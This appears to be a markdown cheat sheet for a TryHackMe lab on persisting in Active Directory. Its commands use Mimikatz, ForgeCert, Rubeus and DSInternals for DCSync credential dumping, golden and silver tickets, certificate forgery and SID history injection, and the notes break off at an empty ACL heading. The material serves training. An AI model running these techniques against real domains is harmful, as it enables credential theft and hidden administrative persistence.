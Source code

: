 # Persisting Active Directory

### Persistence through Credentials

```batch
lsadump::dcsync /domain:za.tryhackme.loc /user:<Your low-privilege AD Username>
```

DC sync every single account. To do this, we will have to enable logging on Mimikatz:

```batch
log <username>_dcdump.txt 
```

DC Sync all accounts

```batch
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /all
```

### Persistence through Tickets

Command to generate Golden Ticket

```batch
mimikatz # kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /krbtgt:<NTLM hash of KRBTGT account> /endin:600 /renewmax:10080 /ptt
```

Command to generate SiIver Ticket

```batch
mimikatz # kerberos::golden /admin:StillNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /target:<Hostname of server being targeted> /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt
```

### Persistence through Certificate

Command to view certificates stored on the DC

```batch
crypto::certificates /systemstore:local_machine
```

some of these certificates were set not to allow us to export the key. Without this private key, we would not be able to generate new certificates. Luckily, Mimikatz allows us to patch memory to make these keys exportable

```batch
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # crypto::capi
Local CryptoAPI RSA CSP patched
Local CryptoAPI DSS CSP patched

mimikatz # crypto::cng
"KeyIso" service patched
```

With these services patched, we can use Mimikatz to export the certificates

```batch
crypto::certificates /systemstore:local_machine /export
```

we have the private key and root CA certificate, we can use the SpectorOps [ForgeCert](https://github.com/GhostPack/ForgeCert) tool to forge a Client Authenticate certificate for any user we want

```batch
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>C:\Tools\ForgeCert\ForgeCert.exe --CaCertPath za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123 
```

We can use Rubeus to request a TGT using the certificate to verify that the certificate is trusted

<pre class="language-batch"><code class="lang-batch"><strong>Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:10.200.x.101
</strong></code></pre>

Now we can use Mimikatz to load the TGT and authenticate

```batch
mimikatz # kerberos::ptt administrator.kirbi
```

### Persistence through SID History

To get sid of  Domain Admin group

```markup
PS C:\Users\Administrator.ZA> Get-ADGroup "Domain Admins"
```

To set SID to low Privelaged Account

We could use something like Mimikatz to add SID history. However, the latest version of Mimikatz has a flaw that does not allow it to patch LSASS to update SID history. Hence we need to use something else. In this case, we will use the [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) tools to directly patch the ntds.dit file, the AD database where all information is stored

```markup
PS C:\Users\Administrator.ZA>Stop-Service -Name ntds -force 
PS C:\Users\Administrator.ZA> Add-ADDBSidHistory -SamAccountName 'username of our low-priveleged AD account' -SidHistory 'SID to add to SID History' -DatabasePath C:\Windows\NTDS\ntds.dit 
PS C:\Users\Administrator.ZA>Start-Service -Name ntds 
```

### Persistence through Group Membership

Nesting Our Persistence

Command To Create nested group

```batch
PS C:\Users\Administrator.ZA>New-ADGroup -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 1" -SamAccountName "<username>_nestgroup1" -DisplayName "<username> Nest Group 1" -GroupScope Global -GroupCategory Security
```

&#x20;Command to add group to the Domain Admins group

```batch
PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "Domain Admins" -Members "<username>_nestgroup5"
```

Command to add low-privileged AD user to the first group we created

```batch
PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "<username>_nestgroup1" -Members "<low privileged username>"
```

### Persistence through ACL

